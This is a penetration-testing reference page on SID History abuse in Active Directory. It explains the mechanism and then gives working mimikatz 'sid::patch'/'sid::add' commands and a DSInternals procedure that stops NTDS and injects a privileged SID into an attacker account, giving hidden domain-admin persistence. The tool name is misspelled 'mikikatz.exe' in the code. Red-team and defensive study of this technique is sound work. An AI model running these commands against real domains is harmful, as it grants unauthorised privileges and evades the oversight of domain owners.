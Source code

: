 # SID History

## Theory

The SID (Security Identifier) is a unique identifier that is assigned to each security principal (e.g. user, group, computer). It is used to identify the principal within the domain and is used to control access to resources.

The SID history is a property of a user or group object that allows the object to retain its SID when it is migrated from one domain to another as part of a domain consolidation or restructuring. When an object is migrated to a new domain, it is assigned a new SID in the target domain. The SID history allows the object to retain its original SID, so that access to resources in the source domain is not lost.

This mechanism can also be abused as a means of persistence: adding the SID of a privileged account or group to the SID-History attribute of a controlled account grants rights associated with account/group of which the SID is added.

For instance, the SID of an account with Domain Admin rights can be added to a normal user SID History to grant them Domain Admin rights (the rights would not be granted per say, but the modified account would be treated as domain admin when checking rights).

## Practice

> [!CAUTION]
> There is currently no way to exploit this technique purely from a distant UNIX-like machine, as it requires some operations on specific Windows processes' memory.

### Pre-Windows 2016

Modifying the SID History attribute of an object can be done using mimikatz, with the [`sid::patch`](https://tools.thehacker.recipes/mimikatz/modules/sid/patch), [`sid::add`](https://tools.thehacker.recipes/mimikatz/modules/sid/add) and [`sid::lookup`](https://tools.thehacker.recipes/mimikatz/modules/sid/lookup) commands.

Mimikatz cannot be used on 2016+ domain controllers for that purpose, due to an error with [`sid::patch`](https://tools.thehacker.recipes/mimikatz/modules/sid/patch) ([https://github.com/gentilkiwi/mimikatz/issues/348](https://github.com/gentilkiwi/mimikatz/issues/348))

> [!WARNING]
> Mimikatz must be launched with at least enough privileges to perform the [`privilege::debug`](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) command (i.e. domain admin or `SYSTEM`).

```powershell
# Generic command
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:UserRecievingTheSID /new:SIDOfTheTargetedUserOrGroup"

# Example 1 : Use this command to inject the SID of built-in administrator account to the SID-History attribute of AttackerUser
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:Builtin\administrators "

# Example 2 : Use sid::lookup to retrieve the SID of an account and inject it to the SID-History attribute of AttackerUser
mikikatz.exe "sid::lookup /name:InterestingUser"
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:SIDOfInterestingUser"
```

### Post-Windows 2016

The only known way to add a SID to the SID History attribute of an account on a Windows domain controller 2016 and above is to use the Powershell module [DSInternals](https://github.com/MichaelGrafnetter/DSInternals). This method also works for Pre-Windows 2016 domain controllers.

> [!CAUTION]
> The NTDS service must be stopped at some point and restarted for this procedure to work, which can cause various issues. Proceed with care, avoid production systems.

```powershell
# Install DSInternals on the domain controller
Install-Module -Name DSInternals

# Find the account SID you want to inject
Get-ADUser -Identity $InterestingUser

# Stop the NTDS service
Stop-service NTDS -force

# Inject the SID into the SID History attribute
Add-ADDBSidHistory -samaccountname AttackerUser -sidhistory $SIDOfInterestingUser -DBPath C:\Windows\ntds\ntds.dit

# Start the NTDS service
Start-service NTDS
```

## Resources

[https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory](https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory)

[https://attack.mitre.org/techniques/T1134/005/](https://attack.mitre.org/techniques/T1134/005/)

[https://adsecurity.org/?p=1772](https://adsecurity.org/?p=1772)

[https://forum.winbatch.com/index.php?topic=1545.0](https://forum.winbatch.com/index.php?topic=1545.0)

[https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory#operational-constraints](https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory#operational-constraints)

[https://learn.microsoft.com/en-us/windows/win32/api/ntdsapi/nf-ntdsapi-dsaddsidhistorya](https://learn.microsoft.com/en-us/windows/win32/api/ntdsapi/nf-ntdsapi-dsaddsidhistorya)

[https://secframe.com/blog/a-sidhistory-attack-marching-onto-a-dc/](https://secframe.com/blog/a-sidhistory-attack-marching-onto-a-dc/)
